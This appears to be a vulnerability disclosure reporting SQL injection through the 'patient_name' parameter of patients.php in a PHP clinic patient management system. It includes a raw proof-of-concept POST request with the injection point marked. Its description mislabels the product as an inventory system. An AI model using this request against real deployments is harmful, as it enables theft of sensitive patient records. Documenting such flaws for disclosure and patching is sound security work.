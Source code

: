 ## The clinic patient management system has SQL injection vulnerability
## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/patients.php
## describe
Unrestricted SQL injection attacks exist in the inventory management system. The parameters that can be controlled are as follows:  patient_name  This function executes the patient_name parameter into an SQL statement without any restrictions. Malicious attackers can use this vulnerability to obtain sensitive information in the server database
## code analysis
The patient_name parameter in patients.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection
<img width="1150" alt="image" src="https://github.com/user-attachments/assets/86ac68b9-5459-4239-94f7-098e0feb6544">


Injection via the patient_name parameter
POC
```
POST /pms/patients.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: http://localhost
Connection: close
Referer: http://localhost/pms/patients.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd; __insuarance__logged=1; __insuarance__key=SK9MGL4R5CQPM34FZSH3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

patient_name=22*&address=22&cnic=22&date_of_birth=08%2F02%2F2024&phone_number=22&gender=Male&save_Patient=
```

<img width="970" alt="image" src="https://github.com/user-attachments/assets/126ff8b1-bc83-412c-bf51-4ed195b4eaa2">

<img width="996" alt="image" src="https://github.com/user-attachments/assets/27749f6c-709a-4ca4-9285-40a87140f667">



